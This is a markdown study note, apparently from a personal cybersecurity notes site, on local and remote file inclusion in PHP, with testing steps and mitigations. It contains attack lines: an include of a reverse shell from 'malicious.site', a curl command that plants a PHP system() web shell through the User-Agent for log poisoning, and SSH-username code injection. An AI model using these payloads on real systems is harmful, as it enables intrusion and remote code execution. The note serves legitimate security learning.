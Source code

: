 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

Files inclusion refers to websites that are importing a file based or using the user input. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the input is not filtered/validated, a hacker may include arbitrary content using [Path traversal](traversal.md) such as an uploaded script.
</div><div>

There are two categories of file inclusion

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

Template engines are more likely to contain LFI/RFI. They can lead to code/data exposure, which may further compromise the company.

⚠️ For RFI, always try a local URL that is likely not blocked by a firewall first <small>(ex: `http://127.0.0.1:80/index.php`)</small>. Alternatively, you may try `ftp://` or `\\IP\share\` on Windows.
</div></div>

<hr class="sep-both">

## Basic Methodology

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI, such as:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.
</div><div>

Assuming we have `page=about`.

* Test Path `./about`
* Test Null-Byte `./about.php%00`
* Test a Path `../<folder name>/about`
* Test Architecture-specific payloads, such as `php://filter`
* Test Remote Inclusion
* ...
</div></div>

<hr class="sep-both">

## PHP File Inclusion

<div class="row row-cols-lg-2"><div>

The website `http://vulnerable.site/?lang=FR` is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

We can use [Path traversal](traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack.

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png"
```
</div><div>

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```

**Additional notes**:

* The **null byte `%00`** could be used in **PHP < 5.3.4** to ignore trailing extensions such as `.png` below:

```php!
include "xxx.png%00.php" // include xxx.png
```

* The PHP string truncation could be used in **PHP < 5.3.0** as strings longer than 4096 were truncated.
</div></div>

<hr class="sep-both">

## Log Poisoning

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

#### PHP Sessions

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use *user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If allowing paths, refer to path traversal mitigations
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories

* 📚 Use additional tools such as a WAF, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/var/log/sshd.log`
* `/var/log/vsftpd.log`
</div><div>

* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.5k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div></div>